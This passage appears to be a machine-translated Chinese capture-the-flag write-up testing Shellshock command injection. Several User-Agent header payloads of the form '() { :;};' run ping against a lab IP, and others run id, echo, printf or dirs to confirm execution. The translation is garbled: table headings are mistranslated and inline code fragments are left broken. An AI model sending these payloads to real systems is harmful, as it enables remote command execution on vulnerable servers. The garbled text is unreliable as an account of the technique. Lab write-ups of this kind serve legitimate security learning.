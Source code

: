 1

平整结果

我很快注意到Python运行后什么都没有。我花了一段时间试图弄清楚Python有什么奇怪之处，但这是看待它的错误方式。我最终尝试了Perl：

UA 字符串

断续器代码

在转储时执行 ping 操作

输出（以恢复）为单位

`User-Agent: () { :;}; /usr/bin/perl -e 'print "\n"'; /bin/ping -c 1 10.10.14.15`

200

0

没有

同样的结果。之后呢？`ping``ping`

UA 字符串

断续器代码

在转储时执行 ping 操作

输出（以恢复）为单位

`User-Agent: () { :;}; echo; /bin/ping -c 1 10.10.14.15; /bin/ping -c 1 10.10.14.15; /bin/ping -c 1 10.10.14.15;`

200

1

一组平

看起来越来越多，任何命令都会杀死执行。那为什么不呢？嗯，是一个巴什内置的。其他内置的呢（请参阅），如 和 ？`echo``echo``man bash``printf``dirs`

UA 字符串

断续器代码

在转储时执行 ping 操作

输出（以恢复）为单位

`User-Agent: () { :;}; printf "\n"; /usr/bin/id`

200

不适用

`id`

`User-Agent: () { :;}; echo; dirs; /usr/bin/id`

200

不适用

